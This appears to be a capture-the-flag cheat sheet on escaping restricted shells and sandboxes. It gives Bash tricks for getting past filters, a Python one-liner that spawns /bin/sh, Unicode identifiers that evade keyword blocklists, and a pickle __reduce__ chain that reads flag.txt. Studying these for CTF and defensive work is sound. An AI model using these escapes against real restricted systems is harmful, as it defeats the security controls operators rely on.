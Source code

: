 # Escape

## Homebrew shells

[List for \*nix](https://gtfobins.github.io/) \([Tool](https://github.com/mzfr/go-gtfo)\)  
[List for windows](https://lolbas-project.github.io/)

If the challenge is a homemade shell with some artificial limitations, gtfobins and LOLBAS list myriad ways to escape. These aren't vulnerabilities, per se, but intended functionality of applications that are commonly installed.

## Bash

[Good ideas](https://wiki.bash-hackers.org)  
[List of parameter expansions](https://wiki.bash-hackers.org/syntax/pe)

### Forbidden strings

```bash
${NOSUCHVAR:-fla}${NOSUCHVAR:-g.txt}    # expands to flag.txt
```

### Stars aren't the only wildcard

```bash
fla?.txt
fl{a,A}g.txt
fl[a-z]g.txt
```

## Docker

* [deepce](https://github.com/stealthcopter/deepce/), a vulnerability scanner.  
* [grype](https://github.com/anchore/grype), a vulnerability scanner.  
* [WhaleScan](https://github.com/nccgroup/whalescan), scans windows containers.

## Electron

[Tell me more](https://github.com/doyensec/awesome-electronjs-hacking)

[view-source:](https://twitter.com/HusseiN98D/status/1325464364569276417) isn't necessarily blocked like `file://` is.

Perhaps the app even uses its own [custom URI scheme](https://twitter.com/zer0pwn/status/1325581291060826112)?

## git

[git-shell](https://insinuator.net/2017/05/git-shell-bypass-by-abusing-less-cve-2017-8386/) tries to be restrictive server-side, but might not be.

## Javascript

[Sandboxes](https://d0nut.medium.com/why-building-a-sandbox-in-pure-javascript-is-a-fools-errand-d425b77b2899)

## Python

[Tell me more](https://book.hacktricks.xyz/misc/basic-python/bypass-python-sandboxes)

Python has **so many** ways to introspect, reflect, reload, import, execute unintended code.

Here's a pretty simple one:

```python
import statistics
statistics.random._os._execvpe("/bin/sh", [], {})
```

### Forbidden strings

If there's some sort of word blocklist, try unicode:

```python
>>> 𝖕𝖗𝖎𝖓𝖙(1)
1
```

Python runs it just fine.

### Pickle

[Source](https://gist.github.com/toblu302/364c3b474c4148295fdee9bd0207e758)

```python
#!/usr/bin/env python3

# From the error message we can see that only __main__, __buitin__ and copyreg are allowed
# __builtin__.eval and __builtin__.exec are banned as well
# We can just open and print the flag.txt by using __builin__.open, followed by readline and print
# This sequence of calls is constructed below by using multiple objects and the pickle __reduce__ interface

import base64
import builtins
import pickle

class FlagObjPickle:
    def __reduce__(self):
        return builtins.open, ("./flag.txt",)
    def readlines(self):
        pass

class ReadFlagPickle:
    def __reduce__(self):
        return FlagObjPickle().readlines, tuple()

class PrintFlagPickle:
    def __reduce__(self):
        return builtins.print, (ReadFlagPickle(),)

a = PrintFlagPickle()
pickled = pickle.dumps(a, 0)
```

Any callable in the target's namespace can be called with \(almost\) arbitrary parameters by pickling a class which implements `__reduce__`. Return the callable and a tuple of arguments. See above for a technique to chain as well.

